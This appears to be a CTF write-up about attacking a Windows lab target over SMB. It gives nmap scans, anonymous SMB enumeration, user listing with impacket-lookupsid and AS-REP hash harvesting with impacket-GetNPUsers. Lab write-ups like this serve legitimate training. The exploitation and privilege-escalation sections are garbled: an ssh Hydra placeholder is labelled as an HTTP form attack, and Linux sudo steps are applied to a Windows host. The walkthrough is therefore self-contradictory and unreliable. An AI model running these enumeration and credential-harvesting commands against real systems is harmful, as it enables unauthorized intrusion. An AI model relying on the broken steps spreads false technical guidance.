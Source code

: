 ```yaml
---
layout: post
author: Fr4nSec
tags: [Windows, SMB,]
---
```


CTF challenge having a Windows target. SMB is key to solve it.

## Objectives

- Obtain the user flag
- Obtain the system flag (root)

## Recon

Let's scan the target IP address..

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.10.216.196
```
![scan1](/images/scan1.jpg)

Once we have a list of open ports, let's scan those ports more in depth.

```
nmap -p 53,135,139,389,445,464,636,3268,5985,9389 -sCV 10.10.216.196 > PortScan
cat PortScan
```

![scan2](/images/scan2.jpg)

We can see some information like domain name and the host.

- Domain: vulnnet-rst.local0
- Host: WIN-2BO8M1OE1M1

Port 445 (SMB) is open. Let's see what we can retrieve from there.

```
smbmap -H 10.10.216.196 -u anonymous
```

![smb1](/images/smb1.jpg)

IPC$ seems to be readable. That means we might be able to ennumerate names of domain accounts. Let's try:

```
impacket-lookupsid anonymous@10.10.216.196
```

![smb2](/images/smb2.jpg)

We can see some user names, let's strip out the data we don't need. Copy the result to a file and run the below to keep only the user names.

```
cat fullinfo.txt | grep SidTypeUser | awk -F'\' '{print $2}' | awk -F'(' '{print $1}'
```

![users1](/images/users.jpg)

Now, having a list of users, let's try to harvest AS_REP responses to see if we can get a hash. (The IP changed because i had to restart the target machine).

```
impacket-GetNPUsers 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip 10.10.171.250
```
![hash1](/images/hash1.jpg)

## Exploitation

We can use Hydra to brute force HTTP-POST-FORM:


```
hydra -l <user> -P <password list> <IP Address> ssh
```



## Privilege escalation

Let's check if sudo has any additional configuration..

```
sudo cat /root/root.txt
```
